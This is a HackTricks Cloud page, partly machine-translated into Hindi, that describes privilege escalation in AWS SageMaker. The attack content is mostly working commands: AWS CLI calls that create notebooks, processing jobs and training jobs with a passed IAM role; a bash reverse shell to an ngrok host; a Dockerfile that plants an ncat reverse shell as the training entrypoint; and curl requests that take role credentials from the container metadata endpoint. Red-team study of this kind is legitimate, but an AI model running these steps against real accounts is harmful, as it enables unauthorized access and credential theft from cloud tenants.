 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAM भूमिका के साथ एक नोटबुक बनाना शुरू करें जो इसके साथ जुड़ी हुई है:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
उत्तर में `NotebookInstanceArn` फ़ील्ड होना चाहिए, जिसमें नए बनाए गए नोटबुक उदाहरण का ARN होगा। फिर हम `create-presigned-notebook-instance-url` API का उपयोग करके एक URL उत्पन्न कर सकते हैं जिसका उपयोग हम नोटबुक उदाहरण तक पहुँचने के लिए कर सकते हैं जब यह तैयार हो:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navigate to the URL with the browser and click on \`Open JupyterLab\` in the top right, then scroll down to “Launcher” tab and under the “Other” section, click the “Terminal” button.

अब IAM भूमिका के मेटाडेटा क्रेडेंशियल्स तक पहुंचना संभव है।

**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

यदि Jupyter **नोटबुक पहले से चल रहे हैं** और आप उन्हें `sagemaker:ListNotebookInstances` (या किसी अन्य तरीके से खोजकर) सूचीबद्ध कर सकते हैं। आप उनके लिए **एक URL उत्पन्न कर सकते हैं, उन तक पहुंच सकते हैं, और पिछले तकनीक में बताए अनुसार क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**संभावित प्रभाव:** सागेमेकर सेवा भूमिका में प्रिवेस्क।

### `sagemaker:CreateProcessingJob,iam:PassRole`

उन अनुमतियों के साथ एक हमलावर **सागेमेकर को एक प्रोसेसिंगजॉब** निष्पादित करने के लिए मजबूर कर सकता है जिसमें एक सागेमेकर भूमिका संलग्न है। हमलावर उस कंटेनर की परिभाषा निर्दिष्ट कर सकता है जो एक **AWS प्रबंधित ECS खाता उदाहरण** में चलाया जाएगा, और **संलग्न IAM भूमिका के क्रेडेंशियल्स चुरा सकता है**।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** निर्दिष्ट सागेमेकर सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर एक प्रशिक्षण नौकरी बना सकेगा, **इस पर एक मनमाना कंटेनर चलाते हुए** जिसमें एक **भूमिका संलग्न** होगी। इसलिए, हमलावर भूमिका के क्रेडेंशियल्स चुरा सकेगा।

{% hint style="warning" %}
यह परिदृश्य पिछले वाले की तुलना में अधिक कठिन है क्योंकि आपको एक डॉकर इमेज उत्पन्न करनी होगी जो रेव शेल या क्रेड्स को सीधे हमलावर को भेजेगी (आप प्रशिक्षण नौकरी की कॉन्फ़िगरेशन में प्रारंभिक कमांड निर्दिष्ट नहीं कर सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** निर्दिष्ट सagemaker सेवा भूमिका के लिए प्रिवेस्क।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

उन अनुमतियों के साथ एक हमलावर (संभावित रूप से) एक **हाइपरपैरामीटर प्रशिक्षण कार्य** बनाने में सक्षम होगा, **इस पर एक मनमाना कंटेनर चलाते हुए** और इसके साथ एक **भूमिका संलग्न** करते हुए।\
_मैंने समय की कमी के कारण इसका लाभ नहीं उठाया, लेकिन यह पिछले शोषणों के समान लगता है, शोषण विवरण के साथ PR भेजने के लिए स्वतंत्र महसूस करें।_

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
